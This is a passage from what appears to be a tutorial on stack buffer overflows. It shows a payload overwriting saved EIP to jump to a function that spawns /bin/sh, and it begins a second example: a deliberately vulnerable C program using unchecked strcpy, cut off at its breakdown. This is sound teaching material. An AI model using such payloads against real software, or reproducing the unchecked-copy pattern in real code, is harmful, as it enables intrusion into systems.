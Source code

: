 Say there happens to be a nice function that does this defined somewhere else in the program that we normally can't get to:

```
void give_shell() {
    system("/bin/sh");
}
```

Well with our buffer overflow knowledge, now we can! All we have to do is overwrite the saved EIP on the stack to the address where `give_shell` is. Then, when main returns, it will pop that address off of the stack and jump to it, running `give_shell`, and giving us our shell.

Assuming `give_shell` is at 0x08048fd0, we could use something like this: `python -c "print 'A'*108 + '\xd0\x8f\x04\x08'"`

We send 108 'A's to overwrite the 100 bytes that is allocated for `name`, the 4 bytes for `secret`, and the 4 bytes for the saved EBP. Then we simply send the little-endian form of `give_shell`'s address, and we would get a shell!

This idea is extended on in Return Oriented Programming.

### Overwrite values on stack

For example, we are given the following code in C language:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];

 if(argc == 1) {
  errx(1, "please specify an argument\n");
 }

 modified = 0;
 strcpy(buffer, argv[1]);

 if(modified == 0x61626364) {
  printf("you have correctly got the variable to the right value\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }
}
```

#### Breakdown

So this code :
